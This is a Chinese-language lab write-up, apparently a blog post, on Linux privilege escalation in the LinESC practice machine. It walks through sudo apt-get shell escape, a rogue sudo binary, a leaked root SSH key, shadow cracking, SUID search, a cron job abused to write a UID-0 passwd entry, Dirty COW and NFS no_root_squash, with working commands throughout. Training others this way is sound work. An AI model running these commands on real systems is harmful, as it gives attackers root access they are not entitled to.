


# 从LinESC学习Linux特权提升

## 环境

提供了一组用户名和密码

用户：muhammad 密码：nasef

## sudoer

通过查看/etc/sudoers或者sudo -l

可以看到我们允许以root身份无密码执行以下三条指令


关于sudoers配置详解可以看https://blog.csdn.net/weixin_60707895/article/details/119415708


## apt-get权限滥用特权提升

通过https://gtfobins.github.io/网站可以查到当有sudo时，我们可以执行`sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh`获取root权限


## 二进制程序权限滥用

在刚刚我们看到sudoers当中有个sudo命令

```
(root) NOPASSWD: /home/muhammad/vuln/2/sudo
```

同时可以看到这里有sudo的源码就是执行sh


因此执行`sudo ./sudo`即可


## ssh私钥泄漏提权root

来到vuln的3目录看见一个key，猜测是root的

记得要给id_rsa，400或者600权限


## /etc/shadow密码可爆破


配合John成功爆破出密码



## suid提权

查找正在系统上运行的所有SUID可执行文件

```bash
find / -user root -perm -4000 -print 2>/dev/null
```


从上面结果可以看到suid这个可执行文件存在可利用问题


代表用户可以以root权限执行命令，看euid知道一切


## crontab计划任务

在`/etc/crontab`发现，每分钟都以root身份在运行一个叫script.sh的脚本


发现每分钟都向root下复制密码过去


生成一个带盐密码

```perl
perl -le 'print crypt("test","addedsalt")''
```

写入密码

```
test:adMpHktIn0tR2:0:0:User_like_root:/root:/bin/bash
```


## 历史记录泄漏

`history`命令里面保存了历史执行的命令，如果没有清楚敏感信息可能导致root密码泄漏


## 内核溢出漏洞提权

信息收集

```bash
uname -a	#查看系统版本内核信息

#centos
hostnamectl	#查看系统版本内核详细信息，推荐这个命令

#ubuntu
lsb_release -a
```

发现在脏牛的范围中


脏牛提权

```bash
gcc -pthread dirty.c -o dirty -lcrypt
./dirty my-new-password
```


## NFS特权提升

在`/etc/exports`文件当中可以看到home下的muhammad是共享的，可以远程挂载，并且no_root_squash 选项开启，说明为远程用户授予root用户对所连接系统的访问权限



将目标靶机nfs目录挂载到mnt目录中

```
mount -t nfs 172.20.10.7:/home/muhammad /tmp/tmp
```

挂在好以后传一个bash上去直接运行就能获取root权限
